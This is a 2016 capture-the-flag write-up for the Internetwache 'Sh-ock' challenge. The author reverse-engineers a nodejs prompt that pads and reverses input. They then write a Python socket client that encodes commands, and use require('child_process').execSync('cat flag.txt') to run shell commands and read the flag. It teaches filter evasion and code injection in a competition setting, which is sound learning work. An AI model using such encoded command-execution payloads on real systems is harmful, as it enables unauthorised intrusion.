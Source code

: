 +++
author = "arturo182"
categories = [ "writeups" ]
date = "2016-02-21T14:40:00+01:00"
title = "Internetwache CTF 2016 Sh-ock (Exp 90) Writeup"
+++

# Problem

>  This is some kind of weird thing. I am sh-ocked.

Service: 188.166.133.53:12589

Solved by 105 teams

# Solution

We nc to the service and are presented with a prompt:

~~~none
Welcome and have fun!
$
~~~

Let's try something basic:

~~~none
Welcome and have fun!
$help
[ReferenceError: lh is not defined]
$
~~~

Right off the bat, that tells us a few things, the `ReferenceError` tells us that this is JavaScript (nodejs). The `lh` part is a little more confusing, let's try something else:

~~~none
$this
[ReferenceError: it is not defined]
$
~~~

Ok, so for help we got lh and for this we got it, seems like 3rd and 1st character, should we pad our commands?

~~~none
$t.h.i.s.
[ReferenceError: siht is not defined]
$
~~~

Yes, that seems to almost work, however it seems that the command is not only padded, but also reversed, how about:

~~~none
$s.i.h.t.
Interface {
  _sawReturn: false,
  domain: null,
...snip...
  _decoder: 
   { encoding: 'utf8',
     surrogateSize: 3,
     charBuffer: <Buffer 65 6e 74 73 20 3d>,
     charReceived: 0,
     charLength: 0 },
  _line_buffer: '' }
$
~~~

There we go! So now we know what to do (or so we think), let's get this party started.

~~~none
$e.r.i.u.q.e.r.
[SyntaxError: Unexpected token .]
$
~~~

But... but... we were so sure that we figured it out! Needs more testing I guess.

~~~none
$1.2.3.4.5.
54321
$1.2.3.4.5.6.
[SyntaxError: Unexpected number]
$1..2..3..4..5..6..
654321
$1...2...3...4...5...6...7...
7654321
$
~~~

So, 1 dot padding for strings shorter than 6 and 2 dots for 7 and so on... To the [python-cave](https://www.youtube.com/watch?v=Yic7IRO9d6I)!

After some trial and error, this is what we end up with:
~~~python
import socket
from sys import stdin, stdout

# source: https://gist.github.com/leonjza/f35a7252babdf77c8421
class Netcat:
    def __init__(self, ip, port):
        self.buff = ""
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((ip, port))

    def read(self, length = 1024):
        return self.socket.recv(length)

    def read_until(self, data):
        while not data in self.buff:
            self.buff += self.socket.recv(1024)

		pos = self.buff.find(data)
        rval = self.buff[:pos + len(data)]
        self.buff = self.buff[pos + len(data):]
        return rval

    def write(self, data):
        self.socket.send(data)

    def close(self):
        self.socket.close()

nc = Netcat('188.166.133.53', 12589)
while 1:
    print nc.read_until('$'),

    inp = stdin.readline().replace('\n', '')
    dots = min(max(1, len(inp)-4), 5) * '.'
    nc.write(dots.join(i for i in inp)[::-1] + dots + '\n')

s.close()
~~~

With that script, we have automatic padding and reversing, so we can execute commands easily:
~~~none
Welcome and have fun!
$require('child_process').execSync('cat flag.txt').toString('ascii')
 IW{Shocked-for-nothing!}
$
~~~

Flag: IW{Shocked-for-nothing!}

Sidenote: On our way out we also managed to snatch the source of the server task and I think it's interesting to see the exact impementation of the padding, to confirm that our python code was valid:

~~~javascript
    if(line.length <= 10) {
        line = line.replace(/.(.)?/g, '$1');
    } else if(line.length <= 20) {
        line = line.replace(/..(.)?/g, '$1');
    } else if(line.length <= 30) {
        line = line.replace(/...(.)?/g, '$1');
    } else if(line.length <= 40) {
        line = line.replace(/....(.)?/g, '$1');
    } else {
        line = line.replace(/.....(.)?/g, '$1');
    }
~~~